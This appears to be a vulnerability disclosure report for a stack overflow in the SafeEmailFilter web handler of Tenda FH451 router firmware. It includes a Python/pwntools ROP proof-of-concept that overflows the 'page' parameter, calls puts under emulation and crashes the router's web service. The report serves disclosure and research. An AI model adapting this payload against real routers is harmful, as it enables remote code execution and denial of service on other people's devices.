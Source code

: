 # Notification of Remote Code Execution Vulnerability in Tenda FH451 Router (Version V1.0.0.9) by Shenzhen Jixiang Tenda Technology

Router firmware download link: [https://tenda.com.cn/material/show/101629](https://tenda.com.cn/material/show/101629)

Vulnerability URL: [http://192.168.100.166/goform/SafeEmailFilter](http://192.168.100.166/goform/SafeEmailFilter)

## Vulnerability Analysis.

The vulnerability occurs in the `formSafeEmailFilter` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE1.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE2.png)

The program retrieves the user input parameter `"page"` but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or potential exploitation.  
Cross-referencing the function `formSafeEmailFilter` with the route `SafeEmailFilter`, line 105. The vulnerability occurs in the `formSafeEmailFilter` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE3.png)
Cross-referencing further to `sub_64EAC`, paying attention to lines 44 and 47.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE4.png)
Yes, based on the cross-referencing, the vulnerability occurs on the page path `goform/SafeEmailFilter`.

## payload
```
import requests
from pwn import *

addr=0x0064920
libc=ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base=0xf6636000
system_addr = base + system_offset
cmd = b"Hello,world\x00"
puts = base+libc.sym['puts']

move_r0=base+0x00040cb8
r3_pop=base+0x00018298

url = "http://192.168.100.166/goform/SafeEmailFilter"
payload = {
'op':b'add',
      'page':b'a'*99+p32(r3_pop)+p32(puts)+p32(move_r0)+cmd

    }
res = requests.post(url=url,data=payload)
```

## Reproduce the following:Open the QEMU simulation.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE5.png)

![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE6.png)
Important: Here, "page not found" means the gateway page was not found, not that the router is not running.

After running the script, it was found that the program was interrupted due to a stack overflow, and the string "Hello, world" was printed, with the `puts` command being executed.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE7.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE8.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE9.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/RCE10.png)
The router crashes, the webpage becomes inaccessible, and the string "Hello, world" is printed.
